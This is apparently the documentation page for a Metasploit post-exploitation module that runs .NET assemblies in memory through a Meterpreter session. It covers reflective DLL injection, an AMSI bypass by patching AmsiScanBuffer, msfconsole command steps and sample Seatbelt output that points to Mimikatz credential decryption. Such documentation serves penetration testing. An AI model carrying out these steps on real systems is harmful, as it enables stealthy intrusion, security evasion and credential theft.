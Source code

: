 # Execute .Net assembly via Meterpreter session

This module to executing a .NET Assembly from Meterpreter session

It spawn a process (or use an existing process providing pid) and use Reflective dll injection to load HostingCLRx64.dll/HostingCLRWin32.dll needed to run .Net assembly
The unmanaged injected dll takes care of verifying if the process has already loaded the clr, and loads it if necessary. The version of the CLR to be loaded is determined by executing the parsing of the assembly provided searching for a known signature. Then run the assembly from memory.
Before loading the assembly in the context of the clr, Amsi is bypassed using the AmsyScanBuffer patching technique (https://rastamouse.me/2018/10/amsiscanbuffer-bypass-part-1/)

You'll find details at [Execute assembly via Meterpreter session](https://b4rtik.blogspot.com/2018/12/execute-assembly-via-meterpreter-session.html)

## Verification Steps

  Example 1 no PID specified:

  1. Start Clone from github SeatBelt or other .Net progect
  2. Buid project with target framework 4.x or 3.5
  2. Start msfconsole
  4. Do: ```use post/windows/manage/execute_assembly```
  5. Do: ```set SESSION sessionid```
  6. Do: ```set ASSEMBLYPATH /your/output/forder```
  7. Do: ```set ASSEMBLY SeatBelt.exe```
  8. Do: ```set ARGUMENTS user```
  9. Do: ```run```
  10. You should get something like that follow

```
msf5 post(windows/manage/execute_assembly) > run

[*] Launching notepad.exe to host CLR...
[+] Process 10628 launched.
[*] Reflectively injecting the Host DLL into 10628..
[*] Injecting Host into 10628...
[*] Host injected. Copy assembly into 10628...
[*] Assembly copied.
[*] Executing...
[*] Start reading output
[+] 
[+] 
[+]                         %&&@@@&&                                                                                  
[+]                         &&&&&&&%%%,                       #&&@@@@@@%%%%%%###############%                         
[+]                         &%&   %&%%                        &////(((&%%%%%#%################//((((###%%%%%%%%%%%%%%%
[+] %%%%%%%%%%%######%%%#%%####%  &%%**#                      @////(((&%%%%%%######################(((((((((((((((((((
[+] #%#%%%%%%%#######%#%%#######  %&%,,,,,,,,,,,,,,,,         @////(((&%%%%%#%#####################(((((((((((((((((((
[+] #%#%%%%%%#####%%#%#%%#######  %%%,,,,,,  ,,.   ,,         @////(((&%%%%%%%######################(#(((#(#((((((((((
[+] #####%%%####################  &%%......  ...   ..         @////(((&%%%%%%%###############%######((#(#(####((((((((
[+] #######%##########%#########  %%%......  ...   ..         @////(((&%%%%%#########################(#(#######((#####
[+] ###%##%%####################  &%%...............          @////(((&%%%%%%%%##############%#######(#########((#####
[+] #####%######################  %%%..                       @////(((&%%%%%%%################                        
[+]                         &%&   %%%%%      Seatbelt         %////(((&%%%%%%%%#############*                         
[+]                         &%%&&&%%%%%        v0.2.0         ,(((&%%%%%%%%%%%%%%%%%,                                 
[+]                          #%%%%##,                                                                                 
.........
.........
.........
[+]   [*] Use the Mimikatz "dpapi::cred" module with appropriate /masterkey to decrypt
[+] 
[+] 
[+] === Checking for RDCMan Settings Files (Current User) ===
[+] 
[+] 
[+] 
[+] [*] Completed Safety Checks in 11 seconds
[+] 
[*] End output.
[+] Killing process 10628
[+] Execution finished.
[*] Post module execution completed
msf5 post(windows/manage/execute_assembly) >
```

  Example 2 PID specified:

  1. Start Clone from github SeatBelt or other .Net progect
  2. Buid project with target framework 4.x or 3.5
  2. Start msfconsole
  4. Do: ```use post/windows/manage/execute_assembly```
  5. Do: ```set SESSION sessionid```
  6. Do: ```set PID 8648```
  7. Do: ```set ASSEMBLYPATH /your/output/forder```
  8. Do: ```set ASSEMBLY SeatBelt.exe```
  9. Do: ```set ARGUMENTS user```
  10. Do: ```run```
  11. You should get something like that follow

```
msf5 post(windows/manage/execute_assembly) > run

[*] Warning: output unavailable
[*] Hooking 8648 to host CLR...
[+] Process 8648 hooked.
[*] Reflectively injecting the Host DLL into 8648..
[*] Injecting Host into 8648...
[*] Host injected. Copy assembly into 8648...
[*] Assembly copied.
[*] Executing...
[+] Execution finished.
[*] Post module execution completed
msf5 post(windows/manage/execute_assembly) >
```
## Options

```
Module options (post/windows/manage/execute_assembly):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   AMSIBYPASS    true             yes       Enable Amsi bypass
   ARGUMENTS                      no        Command line arguments
   ASSEMBLY                       yes       Assembly file name
   ASSEMBLYPATH                   no        Assembly directory
   PID           0                no        Pid  to inject
   PROCESS       notepad.exe      no        Process to spawn
   SESSION                        yes       The session to run this module on.
   WAIT          10               no        Time in seconds to wait

```

AMSIBYPASS

Enable or Disable Amsi bypass. This parameter is necessary due to the technique used. It is possible that subsequent updates will make the bypass unstable which could result in a crash. By setting the parameter to false the module continues to work.

ARGUMENTS

Command line arguments. The signature of the Main method must match with the parameters that have been set in the module, for example:

If the property ARGUMENTS is set to "antani sblinda destra" the main method should be "static void main (string [] args)"<br />
If the property ARGUMENTS is set to "" the main method should be "static void main ()"

ASSEMBLY 

Assembly file name. This will be searched in ASSEMBLYPATH

ASSEMBLYPATH

Assembly directory where to serach ASSEMBLY

PID

Pid to inject. If different from 0 the module does not create a new process but uses the existing process identified by the PID parameter.

PROCESS

Process to spawn when PID is equal to 0.

SESSION

The session to run this module on. Must be meterpreter session

WAIT

Time in seconds to wait before starting to read the output.

